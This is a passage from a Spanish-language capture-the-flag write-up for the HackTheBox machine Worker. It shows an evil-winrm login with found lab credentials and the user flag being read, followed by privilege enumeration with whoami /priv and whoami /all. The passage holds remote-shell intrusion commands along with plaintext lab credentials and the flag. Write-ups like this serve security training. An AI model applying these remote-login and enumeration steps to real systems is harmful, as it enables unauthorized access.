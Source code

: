 ```bash
W:\svnrepos\www\conf>
```

## User flag

- Ahora ya nos podemos conectar y ver la `flag`.

```bash
➜  content evil-winrm -i 10.10.10.203 -u 'robisl' -p 'wolves11'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\robisl\Documents> whoami
worker\robisl
*Evil-WinRM* PS C:\Users\robisl\Desktop> type user.txt
2ce8a9d7ff7736acc3469f7274b2006a
```

## Escalada de Privilegios

- No vemos ningún privilegio ni nada interesante.

```bash
*Evil-WinRM* PS C:\Users\robisl\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\robisl\Desktop> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
worker\robisl S-1-5-21-3082756831-2119193761-3468718151-1330


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                            Attributes
====================================== ================ ============================================== ==================================================
Everyone                               Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
WORKER\Production                      Alias            S-1-5-21-3082756831-2119193761-3468718151-1018 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
```